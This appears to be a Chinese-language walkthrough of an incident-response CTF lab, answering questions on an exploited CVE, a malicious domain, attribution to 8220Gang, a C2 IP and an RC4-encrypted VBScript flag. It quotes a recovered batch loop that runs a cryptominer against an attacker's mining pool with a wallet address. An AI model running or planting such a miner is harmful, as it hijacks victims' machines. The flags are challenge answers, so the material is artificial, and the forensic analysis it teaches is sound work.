









### 攻击者使用什么漏洞获取了服务器的配置文件？



搜索



```
CVE-2025-31161
```

### 恶意域名是什么？

查看计划任务



```
b.oracleservice.top
```

### 系统每天晚上系统都会卡卡的帮小明找到问题出在了那？

flag为配置名称（无空格）



```
@echo off
cd /d "%~dp0"
:start
sqlwpr.exe -a rx/0 --url b.oracleservice.top --user 46E9UkTFqALXNh2mSbA7WGDoa2i6h4WVgUgPVdT9ZdtweLRvAhWmbvuY1dhEmfjHbsavKXo3eGf5ZRb4qJzFXLVHGYH4moQ -t 0
goto start
```

```
flag{sqlbackingup}
```

### 疑似是什么组织发动的攻击？

微步搜索域名



```
flag{8220Gang}
```

### 攻击者C2服务器IP是什么？

翻找系统安全日志



调用了poweshell上线

```
156.238.230.57
```

**事件ID 5156**

含义：记录了windows操作系统中的一种网络流量。具体来说，当windows操作系统中的网络流量通过防火墙时，就会生成一条windows安全日志5156事件。这条事件包括：事件发生的时间、源地址和目标地址、协议类型网络流量使用的协议类型、源目业务口、源网络地址类型和目标网络地址类型、防火墙规则防火墙匹配的规则

查看powershell历史命令

```
Get-History
```

```
notepad $env:APPDATA\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

这里未查到

### 开源项目

在ConsoleApplication2.vcxproj文件中有一个else分支，有一段被注释掉的VBScript代码。由于if条件为真，所以else分支不会执行。分析解密这段VBScript



Base64解码



RC4解密



```
Flag：flag{rqweripqwe[rqwe[rjqw[eprjqweprij}
```

